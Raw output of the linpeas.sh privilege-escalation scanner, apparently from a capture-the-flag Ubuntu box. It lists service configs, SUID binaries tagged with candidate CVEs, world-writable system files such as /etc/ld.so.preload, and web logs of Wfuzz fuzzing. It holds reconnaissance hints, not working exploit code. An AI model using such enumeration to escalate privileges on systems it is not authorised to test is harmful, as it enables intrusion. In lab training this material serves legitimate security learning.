/etc/apache2/mods-enabled/php5.conf:    SetHandler application/x-httpd-php
--
/etc/apache2/mods-enabled/php5.conf-<FilesMatch ".+\.phps$">
/etc/apache2/mods-enabled/php5.conf:    SetHandler application/x-httpd-php-source
drwxr-xr-x 2 root root 4096 Nov  9  2020 /etc/apache2/sites-enabled
drwxr-xr-x 2 root root 4096 Nov  9  2020 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Nov  9  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf


-rw-r--r-- 1 root root 1332 Nov 26  2018 /etc/apache2/sites-available/000-default.conf
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
lrwxrwxrwx 1 root root 35 Nov  9  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

-rw-r--r-- 1 root root 69891 Apr 23  2019 /etc/php5/apache2/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysql.allow_local_infile = On
mysql.allow_persistent = On
mysqli.allow_persistent = On
pgsql.allow_persistent = On
sybct.allow_persistent = On
mssql.allow_persistent = On
-rw-r--r-- 1 root root 69568 Apr 23  2019 /etc/php5/cli/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysql.allow_local_infile = On
mysql.allow_persistent = On
mysqli.allow_persistent = On
pgsql.allow_persistent = On
sybct.allow_persistent = On
mssql.allow_persistent = On

╔══════════╣ Analyzing Rsync Files (limit 70)
-rw-r--r-- 1 root root 1044 Apr 17  2014 /usr/share/doc/rsync/examples/rsyncd.conf                                                  
[ftp]
        comment = public archive
        path = /var/www/pub
        use chroot = yes
        lock file = /var/lock/rsyncd
        read only = yes
        list = yes
        uid = nobody
        gid = nogroup
        strict modes = yes
        ignore errors = no
        ignore nonreadable = yes
        transfer logging = no
        timeout = 600
        refuse options = checksum dry-run
        dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz


╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'                                                                                
drwxr-xr-x 2 root root 4096 Nov  9  2020 /etc/ldap


╔══════════╣ Searching ssl/ssh files
Port 22                                                                                                                             
PermitRootLogin no
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
./linpeas.sh: 2722: ./linpeas.sh: gpg-connect-agent: not found
══╣ Some home ssh config file was found
/usr/share/doc/openssh-client/examples/sshd_config                                                                                  
AuthorizedKeysFile      .ssh/authorized_keys
UsePrivilegeSeparation sandbox          # Default for new installations.
Subsystem       sftp    /usr/libexec/sftp-server

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow                                                                                                                    


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
    GSSAPIDelegateCredentials no

╔══════════╣ Analyzing PAM Auth Files (limit 70)
drwxr-xr-x 2 root root 4096 Nov 13  2020 /etc/pam.d                                                                                 
-rw-r--r-- 1 root root 2139 May  2  2014 /etc/pam.d/sshd


╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions                                                   
tmux 1.8                                                                                                                            


/tmp/tmux-1000
╔══════════╣ Analyzing Keyring Files (limit 70)
drwxr-xr-x 2 root root 4096 Nov  9  2020 /usr/share/keyrings                                                                        
drwxr-xr-x 2 root root 4096 Nov  9  2020 /var/lib/apt/keyrings


╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd                                                                                                      
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

╔══════════╣ Analyzing PGP-GPG Files (limit 70)
/usr/bin/gpg                                                                                                                        
netpgpkeys Not Found
netpgp Not Found                                                                                                                    
                                                                                                                                    
-rw-r--r-- 1 root root 12335 Jul 23  2014 /etc/apt/trusted.gpg
-rw-r--r-- 1 root root 364 Nov 15  2020 /etc/apt/trusted.gpg.d/ondrej-php.gpg
-rw-r--r-- 1 root root 1724 Jun 13  2014 /usr/share/apt/ubuntu-archive.gpg
-rw-r--r-- 1 root root 12335 May 19  2012 /usr/share/keyrings/ubuntu-archive-keyring.gpg
-rw-r--r-- 1 root root 0 May 19  2012 /usr/share/keyrings/ubuntu-archive-removed-keys.gpg
-rw-r--r-- 1 root root 1227 May 19  2012 /usr/share/keyrings/ubuntu-master-keyring.gpg
-rw-r--r-- 1 root root 12335 Jul 23  2014 /var/lib/apt/keyrings/ubuntu-archive-keyring.gpg
-rw-r--r-- 1 root root 933 May  8  2014 /var/lib/apt/lists/in.archive.ubuntu.com_ubuntu_dists_trusty_Release.gpg
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v1.4.11 (GNU/Linux)
iEYEABEKAAYFAlNrkrEACgkQQJdur0N9BbV7RgCfbZGjC7ejdU5fMW6Kbk6bRQcS
G2sAn1h7znlqgxolQOhYVAnsfmu96aTbiQIcBAABCgAGBQJTa5KxAAoJEDtP5qzA
sh8yat4QALTR1k1DKijcCu9NHWm0p5iz6+cFOmUnYS8ewjhS3Oy5mk9WjXLTpOID
BBykbsXnNIEpx4nvPhwX2jb/8XJNIT5pyhHDD7ydbQsDsQnhaah1gBwd5ZP3gwpF
9IGJ15V4737rqeifYNKohn8//4GQsoIuhzyMOqIq8lIpOJyKzWvJm9ToW7kurF1d
yQvB2rdXgOLUgXnpzsLu3Xw/p0bY+OUkdTxbfg+UxOIvwI1DYOPrTq/vPunMkA0C
QuXv7yTdYiWWoV3IUqzF5iwY0nJAcfH6bBmyXXgr9WY9QXSw+CUjMfTI3EPCG8Rw
8Z9z7LJ8zeH7DucaDkSVmPUE8uKPspc7CHuZ5b09O435TdbiargNAXwRNKKlEXcr
1bQ2CZfve5jxKv3g7xEk4C/LpNMd/0w7DsqIuw6lRwoc4vNqdPlQMjywnHFNYTDl
s5Tilg2T2pSE9SRRhLQtGAVP2VU5AD/WJfAUDHM5zLm9avZKsOphiTuXDJkaZxr7
eMn1kQyzCh30ac9zJukh8PfEREY/BT8JFC7qWWUZ2zeevsOQZJ0WHL/lm6TZRsgX
84qD7Z2UrTClnTNd6CUKHm6ispT9uC/BTFZ7efrw8mTPJotBNOpPNgmOVXFKsuoh
SyHY769UhUN2MeCGjsLjee5jRg2moS421UmBZbeRgicH92BUaWzL
=7r4e
-----END PGP SIGNATURE-----


╔══════════╣ Kubernetes information
                                                                                                                                    
╔══════════╣ Analyzing Postfix Files (limit 70)
-rw-r--r-- 1 root root 694 Apr  7  2014 /usr/share/bash-completion/completions/postfix                                              


╔══════════╣ Analyzing Interesting logs Files (limit 70)
-rw-r----- 1 root adm 12022644 Mar 22 17:31 /var/log/apache2/access.log                                                             

-rw-r----- 1 root adm 3238499 Mar 22 17:51 /var/log/apache2/error.log
-rw-rw---- 1 mysql adm 40484 Mar 22 16:45 /var/log/mysql/error.log

╔══════════╣ Analyzing Windows Files Files (limit 70)
                                                                                                                                    


-rw-r--r-- 1 root root 3505 Feb 20  2014 /etc/mysql/my.cnf


╔══════════╣ Analyzing Other Interesting Files Files (limit 70)
-rw-r--r-- 1 root root 3637 Apr  9  2014 /etc/skel/.bashrc                                                                          
-rw-r--r-- 1 cyber cyber 3637 Nov  9  2020 /home/cyber/.bashrc


-rw-r--r-- 1 root root 675 Apr  9  2014 /etc/skel/.profile
-rw-r--r-- 1 cyber cyber 675 Nov  9  2020 /home/cyber/.profile


                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════                             
                                         ╚═══════════════════╝                                                                      
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                         
-rwsr-xr-x 1 root root 44K May  8  2014 /bin/ping6                                                                                  
-rwsr-xr-x 1 root root 31K Dec 16  2013 /bin/fusermount
-rwsr-xr-x 1 root root 37K Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 44K May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 93K Jun  4  2014 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 68K Jun  4  2014 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-sr-x 1 daemon daemon 51K Oct 21  2013 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 67K Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 74K Oct 21  2013 /usr/bin/mtr
-rwsr-xr-x 1 root root 32K Feb 17  2014 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 152K Feb 11  2014 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 41K Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 23K Feb 12  2014 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                                  
-rwsr-xr-x 1 root root 23K May  8  2014 /usr/bin/traceroute6.iputils
-rwsr-sr-x 1 libuuid libuuid 19K Jun  4  2014 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 336K Jan 23  2013 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 431K May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 15K Feb 12  2014 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10K Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 11K Apr 12  2014 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
-rwsr-xr-- 1 root messagebus 304K Jul  4  2014 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                         
-rwxr-sr-x 1 root shadow 35K Feb  1  2014 /sbin/unix_chkpwd                                                                         
-rwsr-sr-x 1 daemon daemon 51K Oct 21  2013 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwxr-sr-x 3 root mail 15K Dec  4  2012 /usr/bin/mail-touchlock
-rwxr-sr-x 1 root shadow 23K Feb 17  2014 /usr/bin/expiry
-rwxr-sr-x 3 root mail 15K Dec  4  2012 /usr/bin/mail-lock
-rwxr-sr-x 1 root mlocate 39K Jun 20  2013 /usr/bin/mlocate
-rwxr-sr-x 1 root ssh 279K May 12  2014 /usr/bin/ssh-agent
-rwxr-sr-x 1 root crontab 36K Feb  9  2013 /usr/bin/crontab
-rwxr-sr-x 1 root tty 15K Jun  4  2013 /usr/bin/bsd-write
-rwxr-sr-x 1 root tty 19K Jun  4  2014 /usr/bin/wall
-rwxr-sr-x 3 root mail 15K Dec  4  2012 /usr/bin/mail-unlock
-rwxr-sr-x 1 root utmp 412K Nov  7  2013 /usr/bin/screen  --->  GNU_Screen_4.5.0
-rwxr-sr-x 1 root mail 15K Dec  7  2013 /usr/bin/dotlockfile
-rwxr-sr-x 1 root shadow 54K Feb 17  2014 /usr/bin/chage
-rwsr-sr-x 1 libuuid libuuid 19K Jun  4  2014 /usr/sbin/uuidd

╔══════════╣ Checking misconfigurations of ld.so
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#ld-so                                                                 
/etc/ld.so.conf                                                                                                                     
include /etc/ld.so.conf.d/*.conf

/etc/ld.so.conf.d
  /etc/ld.so.conf.d/fakeroot-x86_64-linux-gnu.conf
/usr/lib/x86_64-linux-gnu/libfakeroot
  /etc/ld.so.conf.d/libc.conf
/usr/local/lib
  /etc/ld.so.conf.d/x86_64-linux-gnu.conf
/lib/x86_64-linux-gnu
/usr/lib/x86_64-linux-gnu

╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                          
Current capabilities:                                                                                                               
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000001fffffffff

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000001fffffffff

Files with capabilities (limited to 50):

╔══════════╣ Users with capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                          
                                                                                                                                    
╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#acls                                                                  
files with acls in searched folders Not Found                                                                                       
                                                                                                                                    
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path                                               
/usr/bin/gettext.sh                                                                                                                 

╔══════════╣ Unexpected in root
/vmlinuz                                                                                                                            
/initrd.img

╔══════════╣ Files (scripts) in /etc/profile.d/
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#profiles-files                                                        
total 16                                                                                                                            
drwxr-xr-x  2 root root 4096 Nov  9  2020 .
drwxr-xr-x 93 root root 4096 Mar 22 16:44 ..
-rw-r--r--  1 root root  663 Apr  7  2014 bash_completion.sh
-rw-r--r--  1 root root 1559 Mar 31  2014 Z97-byobu.sh

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d                                          
                                                                                                                                    
═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No                                                                                        
═╣ Credentials in fstab/mtab? ........... No                                                                                        
═╣ Can I read shadow files? ............. No                                                                                        
═╣ Can I read shadow plists? ............ No                                                                                        
═╣ Can I write shadow plists? ........... No                                                                                        
═╣ Can I read opasswd file? ............. No                                                                                        
═╣ Can I write in network-scripts? ...... No                                                                                        
═╣ Can I read root folder? .............. No                                                                                        
                                                                                                                                    
╔══════════╣ Searching root files in home dirs (limit 30)
/home/                                                                                                                              
/home/cyber/run.py
/root/

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
/home/cyber                                                                                                                         
/sys/fs/cgroup/systemd/user/1000.user/1.session

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root dip 1093 Nov  9  2020 /etc/ppp/peers/provider                                                                     
-rw-r----- 1 root dip 656 Nov  9  2020 /etc/chatscripts/provider
-rw-r----- 1 root adm 57879 Nov 17  2020 /var/log/apt/term.log
-rw-r----- 1 root adm 32175 Mar 22 16:45 /var/log/dmesg
-rw-r----- 1 root adm 10986 Nov 17  2020 /var/log/dmesg.4.gz
-rw-r----- 1 root adm 11153 Nov 17  2020 /var/log/dmesg.2.gz
-rw-r----- 1 root adm 31 Jul 23  2014 /var/log/fsck/checkroot
-rw-r----- 1 root adm 31 Jul 23  2014 /var/log/fsck/checkfs
-rw-r----- 1 root adm 3238499 Mar 22 17:51 /var/log/apache2/error.log
-rw-r----- 1 root adm 0 Nov  9  2020 /var/log/apache2/other_vhosts_access.log
-rw-r----- 1 root adm 12022644 Mar 22 17:31 /var/log/apache2/access.log
-rw-r----- 1 root adm 33452 Nov 17  2020 /var/log/dmesg.0
-rw-r----- 1 root adm 10977 Nov 17  2020 /var/log/dmesg.3.gz
-rw-r----- 1 root adm 11038 Nov 17  2020 /var/log/dmesg.1.gz

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/home/cyber/.gnupg/trustdb.gpg                                                                                                      
/home/cyber/.gnupg/pubring.gpg
/home/cyber/.gnupg/gpg.conf
/var/log/kern.log
/var/log/syslog
/var/log/auth.log

╔══════════╣ Writable log files (logrotten) (limit 100)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation                                                
                                                                                                                                    
╔══════════╣ Files inside /home/cyber (limit 20)
total 784                                                                                                                           
drwx------ 4 cyber cyber   4096 Mar 22 17:57 .
drwxr-xr-x 4 root  root    4096 Nov 16  2020 ..
-rw------- 1 cyber cyber      0 Nov 17  2020 .bash_history
-rw-r--r-- 1 cyber cyber    220 Nov  9  2020 .bash_logout
-rw-r--r-- 1 cyber cyber   3637 Nov  9  2020 .bashrc
drwx------ 2 cyber cyber   4096 Nov  9  2020 .cache
-rw--w---- 1 cyber cyber     85 Nov 15  2020 flag1.txt
drwx------ 2 cyber cyber   4096 Mar 22 17:57 .gnupg
-rwxrwxr-x 1 cyber cyber 762915 Mar 22 17:55 linpeas.sh
-rw-r--r-- 1 cyber cyber    675 Nov  9  2020 .profile
-rwx------ 1 root  root     349 Nov 15  2020 run.py

╔══════════╣ Files inside others home (limit 20)
                                                                                                                                    
╔══════════╣ Searching installed mail applications
                                                                                                                                    
╔══════════╣ Mails (limit 50)
                                                                                                                                    
╔══════════╣ Backup folders
                                                                                                                                    
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 673 Nov  9  2020 /etc/xml/xml-core.xml.old                                                                   
-rw-r--r-- 1 root root 610 Nov  9  2020 /etc/xml/catalog.old
-rw-r--r-- 1 root root 8196 Jul 15  2014 /lib/modules/3.13.0-32-generic/kernel/drivers/net/team/team_mode_activebackup.ko
-rw-r--r-- 1 root root 8788 Jul 15  2014 /lib/modules/3.13.0-32-generic/kernel/drivers/power/wm831x_backup.ko
-rw-r--r-- 1 root root 198 Nov  9  2020 /var/lib/belocs/hashfile.old
-rw-r--r-- 1 root root 128 Nov  9  2020 /var/lib/sgml-base/supercatalog.old
-rw-r--r-- 1 root root 0 Jul 15  2014 /usr/src/linux-headers-3.13.0-32-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 0 Jul 15  2014 /usr/src/linux-headers-3.13.0-32-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 165622 Jul 15  2014 /usr/src/linux-headers-3.13.0-32-generic/.config.old
-rw-r--r-- 1 root root 10523 Nov  9  2020 /usr/share/info/dir.old
-rw-r--r-- 1 root root 7867 Oct  3  2012 /usr/share/doc/telnet/README.telnet.old.gz
-rw-r--r-- 1 root root 2513 Feb 10  2013 /usr/share/doc/tmux/examples/tmux_backup.sh

╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found: /var/lib/mlocate/mlocate.db: regular file, no read permission                                                                


╔══════════╣ Web files?(output limit)
/var/www/:                                                                                                                          
total 12K
drwxr-xr-x  3 root root 4.0K Nov  9  2020 .
drwxr-xr-x 13 root root 4.0K Nov  9  2020 ..
drwxrwxrwx  3 root root 4.0K Nov 17  2020 html

/var/www/html:
total 72K
drwxrwxrwx 3 root root 4.0K Nov 17  2020 .
drwxr-xr-x 3 root root 4.0K Nov  9  2020 ..

╔══════════╣ All hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rw-r--r-- 1 cyber cyber 220 Nov  9  2020 /home/cyber/.bash_logout                                                                  
-rw------- 1 root root 0 Jul 23  2014 /etc/.pwd.lock
-rw-r--r-- 1 root root 1332 Nov  9  2020 /etc/apparmor.d/cache/.features
-rw-r--r-- 1 root root 220 Apr  9  2014 /etc/skel/.bash_logout
-rw-r--r-- 1 root root 0 Mar 22 16:44 /run/network/.ifstate.lock

╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)                                                                                                                                   
                                                                                                                                    
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                        
/etc/apache2/apache2.conf                                                                                                           
/etc/ld.so.preload
/home/cyber
/opt/binside
/run/lock
/run/shm
/run/user/1000
/tmp
/tmp/tmux-1000
/var/crash
/var/lib/php5
/var/tmp
/var/www/html
/var/www/html/acc.php
/var/www/html/admin.php
/var/www/html/dashboard.php
/var/www/html/depo.php
/var/www/html/forms.php
#)You_can_write_even_more_files_inside_last_directory

/var/www/html/scripts/ie
/var/www/html/tra.php
/var/www/html/with.php

╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                        
  Group adm:                                                                                                                        
/var/log/mysql/error.log                                                                                                            

╔══════════╣ Searching passwords in history files
                                                                                                                                    
╔══════════╣ Searching *password* or *credential* files in home (limit 70)
/etc/pam.d/common-password                                                                                                          
/usr/lib/accountsservice/accounts-daemon-pam-password-helper
/usr/lib/grub/i386-pc/legacy_password_test.mod
/usr/lib/grub/i386-pc/password.mod
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/usr/lib/pppd/2.4.5/passwordfd.so
/usr/lib/python2.7/dist-packages/twisted/cred/credentials.py
/usr/lib/python2.7/dist-packages/twisted/cred/credentials.pyc
/usr/share/man/man7/credentials.7.gz
/usr/share/pam/common-password
/usr/share/pam/common-password.md5sums
/var/cache/debconf/passwords.dat
/var/lib/pam/password

╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
                                                                                                                                    
╔══════════╣ Searching passwords inside logs (limit 70)
192.168.29.248 - - [11/Nov/2020:00:47:20 +0530] "GET /.htpasswd HTTP/1.1" 403 450 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
192.168.29.248 - - [11/Nov/2020:00:47:20 +0530] "GET /.htpasswd_ HTTP/1.1" 403 451 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
192.168.29.248 - - [11/Nov/2020:00:49:49 +0530] "GET /.htpasswd.html HTTP/1.1" 403 455 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
192.168.29.248 - - [11/Nov/2020:00:49:49 +0530] "GET /.htpasswd.html_ HTTP/1.1" 403 456 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
192.168.29.248 - - [16/Nov/2020:15:37:13 +0530] "GET /.htpasswd HTTP/1.1" 403 450 "-" "Wfuzz/2.4.5"
192.168.29.248 - - [16/Nov/2020:15:39:35 +0530] "GET /.htpasswd.html HTTP/1.1" 403 455 "-" "Wfuzz/2.4.5"
192.168.29.248 - - [16/Nov/2020:15:39:35 +0530] "GET /.htpasswd.php HTTP/1.1" 403 454 "-" "Wfuzz/2.4.5"
192.168.29.248 - - [16/Nov/2020:15:39:35 +0530] "GET /.htpasswd.txt HTTP/1.1" 403 454 "-" "Wfuzz/2.4.5"
192.168.29.248 - - [16/Nov/2020:21:26:04 +0530] "GET /.htpasswd HTTP/1.1" 403 450 "-" "Wfuzz/2.4.5"
2014-07-22 22:48:21 install base-passwd:amd64 <none> 3.5.33
2014-07-22 22:48:21 status half-installed base-passwd:amd64 3.5.33
2014-07-22 22:48:21 status unpacked base-passwd:amd64 3.5.33
2014-07-22 22:48:22 configure base-passwd:amd64 3.5.33 3.5.33
2014-07-22 22:48:22 status half-configured base-passwd:amd64 3.5.33
2014-07-22 22:48:22 status installed base-passwd:amd64 3.5.33
2014-07-22 22:48:22 status unpacked base-passwd:amd64 3.5.33
2014-07-22 22:48:32 status half-configured base-passwd:amd64 3.5.33
2014-07-22 22:48:32 status half-installed base-passwd:amd64 3.5.33
2014-07-22 22:48:32 status unpacked base-passwd:amd64 3.5.33
2014-07-22 22:48:32 upgrade base-passwd:amd64 3.5.33 3.5.33
2014-07-22 22:48:33 status half-installed base-passwd:amd64 3.5.33
2014-07-22 22:48:33 status unpacked base-passwd:amd64 3.5.33
2014-07-22 22:49:24 install passwd:amd64 <none> 1:4.1.5.1-1ubuntu9
2014-07-22 22:49:24 status half-installed passwd:amd64 1:4.1.5.1-1ubuntu9
2014-07-22 22:49:25 status unpacked passwd:amd64 1:4.1.5.1-1ubuntu9
2014-07-22 22:49:43 configure base-passwd:amd64 3.5.33 <none>
2014-07-22 22:49:43 status half-configured base-passwd:amd64 3.5.33
2014-07-22 22:49:43 status unpacked base-passwd:amd64 3.5.33
2014-07-22 22:49:44 status installed base-passwd:amd64 3.5.33
2014-07-22 22:50:03 configure passwd:amd64 1:4.1.5.1-1ubuntu9 <none>
2014-07-22 22:50:03 status half-configured passwd:amd64 1:4.1.5.1-1ubuntu9
2014-07-22 22:50:03 status installed passwd:amd64 1:4.1.5.1-1ubuntu9
2014-07-22 22:50:03 status unpacked passwd:amd64 1:4.1.5.1-1ubuntu9
 base-passwd depends on libc6 (>= 2.8); however:
 base-passwd depends on libdebconfclient0 (>= 0.145); however:
Binary file /var/log/auth.log matches
Description: Set up users and passwords
dpkg: base-passwd: dependency problems, but configuring anyway as you requested:
[Mon Nov 16 15:39:35.619584 2020] [:error] [pid 2595] [client 192.168.29.248:42090] script '/var/www/html/.passwd.php' not found or unable to stat
[Mon Nov 16 15:40:04.864536 2020] [:error] [pid 2775] [client 192.168.29.248:42434] script '/var/www/html/htpasswds.php' not found or unable to stat
[Mon Nov 16 15:40:04.865878 2020] [:error] [pid 2773] [client 192.168.29.248:42428] script '/var/www/html/htpasswd.php' not found or unable to stat
[Mon Nov 16 15:40:05.314624 2020] [:error] [pid 2701] [client 192.168.29.248:42692] script '/var/www/html/iisadmpwd.php' not found or unable to stat
[Mon Nov 16 15:40:17.615110 2020] [:error] [pid 2765] [client 192.168.29.248:42884] script '/var/www/html/passwords.php' not found or unable to stat
[Mon Nov 16 15:40:17.615791 2020] [:error] [pid 2715] [client 192.168.29.248:42860] script '/var/www/html/passwor.php' not found or unable to stat
[Mon Nov 16 15:40:17.616299 2020] [:error] [pid 2611] [client 192.168.29.248:42866] script '/var/www/html/password.php' not found or unable to stat
[Mon Nov 16 15:40:17.618069 2020] [:error] [pid 2745] [client 192.168.29.248:42854] script '/var/www/html/passwd.php' not found or unable to stat
[Mon Nov 16 15:40:17.620716 2020] [:error] [pid 2586] [client 192.168.29.248:42848] script '/var/www/html/passw.php' not found or unable to stat
[Mon Nov 16 15:40:21.248863 2020] [:error] [pid 2764] [client 192.168.29.248:42872] script '/var/www/html/pwd.php' not found or unable to stat
[Mon Nov 16 15:40:22.881641 2020] [:error] [pid 2786] [client 192.168.29.248:43002] script '/var/www/html/resetpasswd.php' not found or unable to stat
Nov 11 00:43:45 ubuntu mysqld_safe[2800]: PLEASE REMEMBER TO SET A PASSWORD FOR THE MySQL root USER !
Nov 11 00:43:45 ubuntu mysqld_safe[2800]: /usr/bin/mysqladmin -u root -h ubuntu password 'new-password'
Nov 11 00:43:45 ubuntu mysqld_safe[2800]: /usr/bin/mysqladmin -u root password 'new-password'
Preparing to unpack .../base-passwd_3.5.33_amd64.deb ...
Preparing to unpack .../passwd_1%3a4.1.5.1-1ubuntu9_amd64.deb ...
Selecting previously unselected package base-passwd.
Selecting previously unselected package passwd.
Setting up base-passwd (3.5.33) ...
Setting up passwd (1:4.1.5.1-1ubuntu9) ...
Shadow passwords are now on.
Unpacking base-passwd (3.5.33) ...
Unpacking base-passwd (3.5.33) over (3.5.33) ...
Unpacking passwd (1:4.1.5.1-1ubuntu9) ...
```


